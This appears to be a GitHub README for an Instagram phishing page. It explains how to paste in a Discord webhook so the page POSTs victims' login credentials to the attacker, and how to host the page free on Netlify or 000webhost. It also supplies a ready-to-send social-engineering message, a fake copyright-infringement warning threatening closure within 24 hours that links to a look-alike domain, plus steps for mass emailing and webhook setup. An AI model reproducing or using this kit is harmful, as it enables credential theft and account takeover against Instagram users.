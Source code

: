 Usage :

My Instagram phishing page is really easy to use, you only have to replace [https://discord.com/api/webhooks/1282157795537453098/GwpK6Tlu2N_Ap_jfozn5C0ju2JD5ecXwu2hdOTk2QavV-JrqDOD_3FWm1FGDiV0V_qAq) on line 101 by your Discord webhook.
request.open("POST", "Webhook");

Next, you upload it to your website (like Netlify or 000webhost, they are free)
When someone will login you will receive his credentials and he will be redirected to the official Insta login page. (the one in the link, you can change it by editing the link and the js part in HTML on line 108).




send this msg directly to the victim. 
 
Hi Instagram User!

copyright infringement!
Copyright violation has been detected in a post on your account.
if you think copyright infringement is wrong, you should provide feedback. Otherwise, your account will be closed within 24 hours. You can give feedback using the link below. Thank you for your understanding.

Copyright Form
https://lnstaagram.netlify.app/





To send phishing link via email
download email-sending.zip





how to create webhook server
go to discord.com
click add server
then name a server 
after creating server then go to integration in server setting
in integration create a webhook 

